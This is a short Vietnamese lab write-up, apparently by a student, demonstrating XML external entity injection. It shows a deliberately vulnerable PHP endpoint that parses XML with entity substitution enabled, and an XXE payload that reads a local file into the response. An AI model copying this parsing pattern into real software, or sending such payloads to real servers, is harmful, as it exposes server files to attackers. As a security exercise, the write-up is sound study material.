 - Em có đoạn check như sau:



```
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $xml = file_get_contents('php://input');
    if ($xml) {
        $data = simplexml_load_string($xml, null, LIBXML_NOENT);
        if ($data !== false) {
            $productId = $data->storeId;

            echo "The productId is: " . $productId;
        } else {
            echo "Failed to parse XML data";
        }
    } else {
        echo "No XML data received";
    }
} else {

    echo "Only POST requests are allowed";
}
?>


```

- Khi mà em chọn vật phẩm thì sẽ gửi đến 1 xml đến sever và sẽ nhận được id vật phẩm đã chọn ạ

- Em sẽ tạo 1 entity để đọc nội dung file file:///D:/hii.txt

```

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///D:/hii.txt"> ]>
<stockCheck><productId>
1
</productId><storeId>&xxe;</storeId></stockCheck>

```
- Và kết quả em nhận được là nội dung của file

![alt text](image.png)